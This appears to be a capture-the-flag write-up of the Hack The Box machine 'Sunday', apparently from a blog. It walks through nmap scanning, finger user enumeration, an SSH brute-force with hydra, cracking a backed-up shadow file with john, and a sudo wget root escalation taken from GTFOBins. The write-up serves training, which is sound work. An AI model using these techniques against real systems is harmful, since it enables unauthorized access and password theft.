Machine Name: Sunday
OS type: Linux
Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Tue Apr 15 10:31:14 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up, received echo-reply ttl 254 (0.28s latency).
Scanned at 2025-04-15 10:31:15 EDT for 976s
Not shown: 35181 filtered tcp ports (no-response), 30349 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON         VERSION
79/tcp    open  finger? syn-ack ttl 59
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp   open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
515/tcp   open  printer syn-ack ttl 59
6787/tcp  open  http    syn-ack ttl 59 Apache httpd
|_http-title: 400 Bad Request
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
22022/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsG4q9TS6eAOrX6zI+R0CMMkCTfS36QDqQW5NcF/v9vmNWyL6xSZ8x38AB2T+Kbx672RqYCtKmHcZMFs55Q3hoWQE7YgWOJhXw9agE3aIjXiWCNhmmq4T5+zjbJWbF4OLkHzNzZ2qGHbhQD9Kbw9AmyW8ZS+P8AGC5fO36AVvgyS8+5YbA05N3UDKBbQu/WlpgyLfuNpAq9279mfq/MUWWRNKGKICF/jRB3lr2BMD+BhDjTooM7ySxpq7K9dfOgdmgqFrjdE4bkxBrPsWLF41YQy3hV0L/MJQE2h+s7kONmmZJMl4lAZ8PNUqQe6sdkDhL1Ex2+yQlvbyqQZw3xhuJ
|   256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII/0DH8qZiCfAzZNkSaAmT39TyBUFFwjdk8vm7ze+Wwm
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.94SVN%I=7%D=4/15%Time=67FE7116%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest,93,"Login\
SF:x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20
SF:\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nGET\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?
SF:\?\?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\?\?\?\r\n")%r(Help,5D,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\nHE
SF:LP\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\?\?\?\r\n")%r(HTTPOptions,93,"Login\x20\x20\x20\x20\x20\x20\x20Name
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Whe
SF:re\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(RTSPRequest,93,"Login\x20\
SF:x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20
SF:\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nRTSP/1\.
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r
SF:(SSLSessionReq,5D,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n\x16\x03\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\?\?\?\r\n")%r(TerminalServerCookie,5D,"Login\x20\x20\x20\x20\x
SF:20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\
SF:x20\x20\x20Where\r\n\x03\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n");

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 15 10:47:31 2025 -- 1 IP address (1 host up) scanned in 977.04 seconds
```

## Enumeration

### Port 6787/HTTP

I’ll start my enumeration from port 6787 which is running HTTP server, so i’ll fire the fox up and visit the url 



so when i see this type of login page for known services i’ll google for the default credentials, i’ve tried root:welcome1, admin:admin, root:solaris but none of them are working

### Port 79/Finger

port 79 is open on target it’s running finger service, i’ll first connect to that service using telnet

```bash
telnet 10.10.10.76 79
```



after connecting to finger i just enter the **root** username and it shows the information of that user and also that user has shell using ssh on the machine

further searching reveals that we can enumerate user’s on the system using https://pentestmonkey.net/tools/user-enumeration/finger-user-enum perl script

```bash
perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.7
6
```



i found that only 3 users has the SSH shell on the machine so i’ll create a user.txt 



next thing is i’ll create the password.txt with the same usernames, some common names, machine name, and some keywords like finger,solaris,oracle etc.

then i’ll run hydra to perform brute-force attack on the target machine\

```bash
hydra -l users.txt -p sunday ssh://10.10.10.76:22022
```



Bingo!! i got the initial access as sunny user

then i’ll ssh to machine 

```bash
ssh sunny@10.10.10.76 -p 22022
```



## Post-Enum

I’ll start Post enumeration on target machine afterr initial access as sunny, i found that there’s another user on the system named sammy, then i tried to check sudo permissions as sunny using `sudo -l` and i found this troll binary but it is only rabbit hole



moving for another enumeration, check all files owned by the user sunny

```bash
find / -type f -user sunny 2>/dev/null | grep -v "/proc"
```

check for SUID binary

```bash
find / -type f -perm -4000 2>/dev/null
```

no interesting application in /opt folders

then i remembered that we need the credentials to login into oracle solaris dashboard, i’ll definitely try the sunny’s creds to login to solaris dashboard



and i’m IN!!

click on sunday icon and then i found the solaris application

Version - Solaris (11.4,5.11-11.4.42.0.0.111.0)



Quick google search expose the PrivEsc exploit for Solaris 11.4 → https://www.exploit-db.com/exploits/47529



also exploring the exploit more, i found that `uname -a` should ouput the SunOS stalker 5.11 11.4.0.15.0 as output so i’ll quickly check this on target machine to confirm that exploit work 



Just Like that <3!, i’ll grab the exploit and try to run the exploit. it’s not working

i’ll continue my enumeration in the system i found /backup directory at the root of file system



strange i found the shadow.backup file inside the folder



i’ll try to crack password using john

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



great i’ll su to sammy using his password



### Get Shiny ‘#’

Enumeration begins again, i start by `sudo -l` to see if admin gives us any special permissions



i found that the user sammy can run wget as sudo on sunday, i’ll first check in the GTFOBins → https://gtfobins.github.io/gtfobins/wget/#sudo

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

